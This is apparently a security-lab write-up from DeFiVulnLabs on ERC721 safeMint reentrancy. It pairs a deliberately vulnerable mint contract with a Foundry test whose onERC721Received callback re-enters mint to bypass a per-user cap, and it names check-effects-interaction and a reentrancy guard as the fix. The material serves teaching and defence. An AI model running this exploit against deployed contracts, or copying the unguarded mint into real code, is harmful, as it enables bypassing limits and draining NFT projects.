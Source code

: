 # Unprotected callback - ERC721 SafeMint reentrancy  
[Unprotected-callback.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Unprotected-callback.sol)  
**Name:** Unprotected callback - ERC721 SafeMint reentrancy

**Description:**  
The contract ContractTest is exploiting a callback feature to bypass the maximum mint limit
set by the MaxMint721 contract. This is achieved by triggering the onERC721Received function,
which internally calls the mint function again. Therefore, although MaxMint721 attempts
to limit the number of tokens that a user can mint to MAX_PER_USER, the ContractTest contract
successfully mints more tokens than this limit.

**Scenario:**  
This exercise is about a contract that via callback function to mint more NFTs

**Mitigation:**  
Follow check-effect-interaction and use OpenZeppelin Reentrancy Guard.

**REF:**  

https://blocksecteam.medium.com/when-safemint-becomes-unsafe-lessons-from-the-hypebears-security-incident-2965209bda2a  

https://www.paradigm.xyz/2021/08/the-dangers-of-surprising-code  

MaxMint721 **Contract:**  
```
contract MaxMint721 is ERC721Enumerable {
    uint256 public MAX_PER_USER = 10;

    constructor() ERC721("ERC721", "ERC721") {}

    function mint(uint256 amount) external {
        require(
            balanceOf(msg.sender) + amount <= MAX_PER_USER,
            "exceed max per user"
        );
        for (uint256 i = 0; i < amount; i++) {
            uint256 mintIndex = totalSupply();
            _safeMint(msg.sender, mintIndex);
        }
    }
}
```
**How to Test:**
forge test --contracts src/test/Unprotected-callback.sol -vvvv  
```
// Public function that tests the minting of new tokens
    function testSafeMint() public {
        // A new instance of the MaxMint721 contract is created
        MaxMint721Contract = new MaxMint721();
        
        // Tries to mint maxMints amount of new tokens. 
        // If the mint function is implemented in a standard way, this should mint maxMints number of new tokens.
        MaxMint721Contract.mint(maxMints);
        
        // The console log suggests an exploit has taken place allowing for 19 NFTs to be minted
        console.log("Bypassed maxMints, we got 19 NFTs");
        
        // The code asserts that indeed 19 NFTs have been minted
        assertEq(MaxMint721Contract.balanceOf(address(this)), 19);
        
        // Outputs the number of NFTs minted by this contract
        console.log("NFT minted:", MaxMint721Contract.balanceOf(address(this)));
    }

    // This function is a standard implementation of the ERC721Receiver interface which allows this contract 
    // to receive ERC721 tokens from other contracts. In this case, it's used to perform the mint exploit
    function onERC721Received(
        address,
        address,
        uint256,
        bytes memory
    ) public returns (bytes4) {
        
        // Checks if this is the first time the function is called
        if (!complete) {
            // Marks the function as called
            complete = true;
            
            // Mints (maxMints - 1) number of new tokens. 
            MaxMint721Contract.mint(maxMints - 1);
            
            // Outputs the number of tokens requested to mint
            console.log("Called with :", maxMints - 1);
        }
        
        // This is the standard return value for a successful receipt of an ERC721 token
        return this.onERC721Received.selector;
    }
```
Red box: bypassed maxMint
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F86e9ee9c-86cb-4ef2-9c5a-cf8774cacda8%2FUntitled.png?table=block&id=a2eb9107-aa44-4bc6-a6b6-0c1a0f284393&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
